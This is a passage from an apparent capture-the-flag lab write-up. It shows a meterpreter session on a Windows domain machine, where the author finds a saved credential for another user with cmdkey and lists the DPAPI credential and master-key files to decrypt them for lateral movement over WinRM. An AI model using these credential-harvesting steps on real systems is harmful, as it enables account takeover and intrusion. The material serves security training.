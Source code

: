 ```console
meterpreter > getuid
Server username: OFFICE\ppotts
```

## Access as HHogan
After getting a shell as the user `ppotts` we can start to do some pillaging and look for any saved credentials on the current account. Executing `cmdkey /list` reveals there is also a saved credential for the user `HHogan`. Looking at the privileges of this user, we see that this account is part of the `Remote Management Users` group.

```console
PS C:\Users\PPotts> cmdkey /list
Currently stored credentials:

    Target: LegacyGeneric:target=MyTarget
    Type: Generic 
    User: MyUser
    
    Target: Domain:interactive=office\hhogan
    Type: Domain Password
    User: office\hhogan

PS C:\Users\PPotts> net user hhogan
User name                    HHogan
Full Name 
<SNIP>
Local Group Memberships      *Remote Management Use
Global Group memberships     *Domain Users         *GPO Managers 
```

This means that if we are able to recover the credentials of this account, we can most likely connect over WinRM. To get these credentials we can use DPAPI. The DPAPI credential files are decrypted using the user's password, and can be decrypted with the master key or the domain key in case we have access as a domain administrator.

```console
PS C:\Users\PPotts> gci -force AppData\Roaming\Microsoft\Credentials
Directory: C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          5/9/2023   2:08 PM            358 18A1927A997A794B65E9849883AC3F3E
-a-hs-          5/9/2023   4:03 PM            398 84F1CAEEBF466550F4967858F9353FB4
-a-hs-         1/18/2024  11:53 AM            374 E76CCA3670CD9BB98DF79E0A8D176F1E
```

We see three protected files and to be able to extract any data from them we need the master key.

```console
PS C:\Users\PPotts> gci -force AppData\Roaming\Microsoft\Protect
Directory: C:\Users\PPotts\AppData\Roaming\Microsoft\Protect

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d---s-         1/17/2024   3:43 PM                S-1-5-21-1199398058-4196589450-691661856-1107
-a-hs-          5/2/2023   4:13 PM             24 CREDHIST
-a-hs-         1/17/2024   4:06 PM             76 SYNCHIST

PS C:\Users\PPotts> gci -force AppData\Roaming\Microsoft\Protect\S-1-5-21-1199398058-4196589450-691661856-1107
Directory: C:\Users\PPotts\AppData\Roaming\Microsoft\Protect\S-1-5-21-1199398058-4196589450-691661856-1107

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-         1/17/2024   3:43 PM            740 10811601-0fa9-43c2-97e5-9bef8471fc7d
```
